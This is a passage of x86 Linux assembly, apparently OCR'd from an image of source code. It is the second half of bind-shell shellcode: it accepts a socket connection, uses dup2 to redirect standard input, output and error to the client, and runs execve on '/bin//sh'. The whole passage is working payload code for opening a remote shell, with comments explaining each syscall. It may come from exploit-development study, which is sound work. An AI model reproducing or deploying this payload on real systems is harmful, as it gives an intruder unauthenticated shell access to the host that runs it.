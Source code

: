 ```nasm
    push eax                    ; struct sockaddr *addr = NULL
    push esi                    ; socketfd
    mov ecx, esp                ; args = [socketfd, NULL, NULL]
    mov bl, 5                   ; call = sys_accept = 5
    mov al, 102                 ; socketcall
    int 0x80

    mov edi, eax                ; clientfd



    ; remap i/o
    ; int dup2(int oldfd, int newfd);
    ;
    ; int dup2(clientfd, 2);
    ; int dup2(clientfd, 1);
    ; int dup2(clientfd, 0);

    xor ecx, ecx
    mov cl, 2                   ; newfd = stdin, stdout, stderr
    mov ebx, edi                ; oldfd = socketfd
    xor eax, eax
dup2:
    mov al, 63                  ; dup2
    int 0x80
    dec ecx
    jns dup2                    ; while not signed (not below 0)


  

    ; execve
    ; int execve(const char *filename, char *const argv[], char *const envp[]);
    ;
    ; int execve("/bin//sh", &cmd, 0)

execve:
    xor eax, eax
    push eax                    ; 0
    push 0x68732f2f             ; hs//
    push 0x6e69622f             ; nib/
    mov ebx, esp                ; filename

    push eax                    ; 0
    mov edx, esp                ; envp

    push ebx                    ; filename address
    mov ecx, esp                ; argv

    mov al, 11                  ; execve
    int 0x80
```
